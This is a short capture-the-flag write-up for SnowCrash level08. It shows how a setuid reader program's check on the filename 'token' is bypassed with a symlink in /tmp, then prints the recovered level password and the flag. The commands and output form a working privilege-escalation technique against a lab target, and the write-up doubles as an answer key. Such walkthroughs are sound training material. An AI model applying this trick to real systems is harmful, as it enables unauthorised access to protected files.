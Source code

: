 level08@SnowCrash:~$ ls -la
total 28
dr-xr-x---+ 1 level08 level08  140 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level08 level08  220 Apr  3  2012 .bash_logout
-r-x------  1 level08 level08 3518 Aug 30  2015 .bashrc
-rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08
-r-x------  1 level08 level08  675 Apr  3  2012 .profile
-rw-------  1 flag08  flag08    26 Mar  5  2016 token



we have level08 and token as potentially interesting files

level08@SnowCrash:~$ ./level08 
./level08 [file to read]

level08@SnowCrash:~$ ./level08 token
You may not access 'token'


we make a symbolic link to /tmp

ln -s /home/user/level08/token /tmp/flag08


level08@SnowCrash:~$ ./level08 /tmp/flag08
quif5eloekouj29ke0vouxean


level08@SnowCrash:~$ su flag08
Password: 
Don't forget to launch getflag !


flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f